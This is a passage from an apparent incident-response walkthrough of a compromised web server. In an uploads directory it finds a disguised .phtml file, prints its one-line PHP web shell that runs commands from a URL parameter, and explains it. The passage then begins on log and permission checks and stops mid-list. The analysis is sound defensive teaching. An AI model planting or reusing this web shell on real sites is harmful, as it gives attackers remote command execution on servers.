 First, navigate to the web directory at `/var/www/html/` and run `ls -la` and we see an `uploads` subdirectory which contains a bunch of JPEG files and one suspicious `.phtml` file

> In many web server setups (like Linux servers with Apache or Nginx), the `/var/www/` directory is the default location for website files
> The group and owner of these files are `www-data`, a system group typically used by web server software such as Apache or Nginx. It helps manage permissions for web server processes and the files they serve.
{: .prompt-info }

```bash
ls -la /var/www/html/uploads
total 224
drwxr-xr-x 2 www-data www-data 4096 Feb 13 00:31 .
drwxr-xr-x 4 root     root     4096 Feb 12 23:05 ..
-rw-r--r-- 1 www-data www-data 1908 Feb 12 16:59 ABHz3aj.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 16:59 AhVpDoS.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 AqLnBvC.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 AsDfGhJ.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12 17:00 AzSxWqE.jpeg
...
-rw-r--r-- 1 www-data www-data   30 Feb 13  2024 b2c8e1f5.phtml
```

Reading the contents of the `.phtml` file:

```bash
$ cat /var/www/html/uploads/b2c8e1f5.phtml 
<?php system($_GET['cmd']);?>
```

Breaking down this code:

1. `<?php ... ?>`  tells the server to interpret the code inside as PHP code.
2. `system()` runs the command passed to it and outputs the result directly to the webpage
3. `$_GET['cmd']` takes the value from the URL parameter `cmd`. For example, if the URL is `http://example.com/script.php?cmd=ls`, then `$_GET['cmd']` would be `ls`

So when a user accesses the PHP page with a URL like `http://example.com/script.php?cmd=ls`, it runs the `ls` command on the server and the output of that command is then displayed directly on the webpage. This code introduces a severe security vulnerability known as Remote Code Execution (RCE) and an attacker can execute arbitrary commands on your server by passing malicious input through the `cmd` parameter.


### Ownership and Permissions

After identifying the uploaded file that led to the foothold, it is now a good idea to look into the web server logs to correlate the request and gain more insights into the attack. Web server logs, such as Apache or Nginx logs, can provide valuable information about the attacker's activities, request patterns, and origin.

Since the malicious file was owned by `www-data`, we should investigate additional activity and files owned by `www-data` to determine what the attacker may have done with their newfound access.

Attackers often target directories with write permissions to upload malicious files. Common writable directories include:
